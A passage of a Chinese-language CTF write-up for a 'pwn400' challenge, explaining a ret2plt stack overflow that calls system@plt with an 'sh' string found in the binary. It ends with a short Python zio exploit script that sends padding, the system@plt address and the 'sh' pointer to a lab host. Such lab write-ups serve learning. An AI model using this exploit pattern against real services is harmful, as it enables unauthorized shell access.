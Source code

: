 发现`N^X`打开，但`PIE`没有打开。暂时不考虑传入shellcode到栈上。又由于目标环境的基址随机化是否打开以及`libc`库版本均不可知，考虑调用`.plt`中的`system`函数并为其传入一个`sh`字符串做参数获得shell。那么哪里有`sh`呢？在gdb-peda中`find sh`一下，发现`Small fish`最后就是`sh`（即`0x80485db`处）：

![](images/pwn400-sh.png)

再看一下`system@plt`的地址：

![](images/pwn400-system.png)

最后用gdb调试计算一下需要多少填充字节才能够覆盖到函数返回地址。

最终可以有以下exploit脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10004

shellcode = 'A' * 272 + '\x80\x83\x04\x08' + 'AAAA' + '\xdb\x85\x04\x08\n'

conn = zio((IP, port))
#conn = zio("./pwn200")
conn.write(shellcode)
```